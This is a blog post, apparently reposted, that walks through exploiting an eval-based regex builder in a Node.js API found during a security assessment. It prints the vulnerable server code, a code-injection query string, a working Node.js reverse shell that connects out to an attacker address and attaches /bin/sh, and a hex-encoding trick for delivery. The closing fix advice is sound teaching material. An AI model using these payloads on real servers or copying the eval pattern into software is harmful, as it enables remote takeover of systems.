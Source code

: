 ```yaml
---
template: post
title: Reverse shell on a Node.js application
date: '2016-05-30T23:12:00.000+07:00'
author: Van-Duyet Le
tags:
- Nodejs
- Reverse shell
- Security
- Node.js
- vulnerable
modified_time: '2016-05-30T23:12:07.074+07:00'
blogger_id: tag:blogger.com,1999:blog-3454518094181460838.post-4949924599594903184
blogger_orig_url: https://blog.duyet.net/2016/05/reverse-shell-on-nodejs-application.html
slug: /2016/05/reverse-shell-on-nodejs-application.html
category: Javascript
description: How we obtained a Javascript reverse shell by exploiting a vulnerability on a Node.js application during a security assessment.
fbCommentUrl: none
---
```


How we obtained a Javascript reverse shell by exploiting a vulnerability on a Node.js application during a security assessment.

## Introduction ##
We were tasked by a small web developer team to perform a security assessment of their mobile app backend which is a REST API.

The architecture is rather simple there is only three Linux servers.

- Node.js
- MongoDB
- Redis

First we performed a few arbitrary tests without access to the source code and we discovered that a few unexpected input at some endpoints would crash the backend application.
We also noticed that the redis server was accessible from the WAN without authentication.

Our next step was to review the Node.js API code and understand the crashes.

## Simplified vulnerable application ##
We created this small Node.js application with the vulnerable function if you want to try to exploit it yourself.
This Node.js web server will wait for a query such as `http://target.tld//?name=do*` and search for animal names matching that query.

```
'use strict'
const http = require('http');
const url = require('url');
const path = require('path');

const animalsJSON = path.join(__dirname, 'animals.json');
const animals = require(animalsJSON);

function requestHandler(req, res) {
    let urlParams = url.parse(req.url, true);
    let queryData = urlParams.query;
    res.writeHead(200, {"Content-Type": "application/json"});

    if (queryData.name) {
        let searchQuery = stringToRegexp(queryData.name);
        let animalsResult = getAnimals(searchQuery);
        res.end(JSON.stringify(animalsResult));
    } else {
        res.end();
    }
}

function getAnimals(query) {
    let result = [];

    for (let animal of animals) {
        if (query.test(animal.name))
            result.push(animal);
    }

    return result;
}

function stringToRegexp(input) {
    let output = input.replace(/[\[\]\\\^\$\.\|\?\+\(\)]/, "\\$&");
    let prefix, suffix;

    if (output[0] == '*') {
        prefix = '/';
        output = output.replace(/^\*+/g, '');
    } else {
        prefix = '/^';
    }

    if (output[output.length - 1] == '*') {
        suffix = '/i';
        output = output.replace(/\*+$/g, '');
    } else {
        suffix = '$/i';
    }
    output = output.replace(/[\*]/, '.*');

    return eval(prefix + output + suffix);
}

const server = http.createServer(requestHandler);
server.listen(3000);
```

```
[
    {"name": "Dinosaur"},
    {"name": "Dog"},
    {"name": "Dogfish"},
    {"name": "Dolphin"},
    {"name": "Donkey"},
    {"name": "Dotterel"},
    {"name": "Dove"},
    {"name": "Dragonfly"},
    {"name": "Duck"}
]
```

## The vulnerability ##
After a few minutes of analyzing the buggy endpoints in the code we noticed a bad practice issue that could lead to remote code execution.
The `stringToRegexp` function is evaluating user input to create a `RegExp` object and use it to find elements in an array.

```
return eval(prefix + output + suffix); // we control output value
```

We can insert our own Javascript code in the output variable and execute it.
The stringToRegexp function will escape some characters and the output value will be evaluated.

```
["./;require('util').log('Owned');//*"]
```

Visiting the address below will print a message on the server terminal.
`http://target.tld/?name=["./;require('util').log('Owned');//*"]`

From there it would be nice to execute code to have an interactive shell such as `/bin/sh`.

## The Node.js reverse shell ##
The Javascript code below is a Node.js reverse shell.
The payload will spawn a /bin/sh shell, create a TCP connection to the attacker and attach the shell standard streams to it.

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

To execute the payload gracefully we used a little trick, we encoded our reverse shell payload to hexadecimal and used the Node.js Buffer object to decode it.
`http://target.tld/?name=["./;eval(new Buffer('PAYLOAD', 'hex').toString());//*"]`

## Conclusion ##
It's highly recommended to avoid using the `eval` function in a Javascript project.
The fix was rather simple, they started using using the `RegExp` object directly.
See origin post here: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)
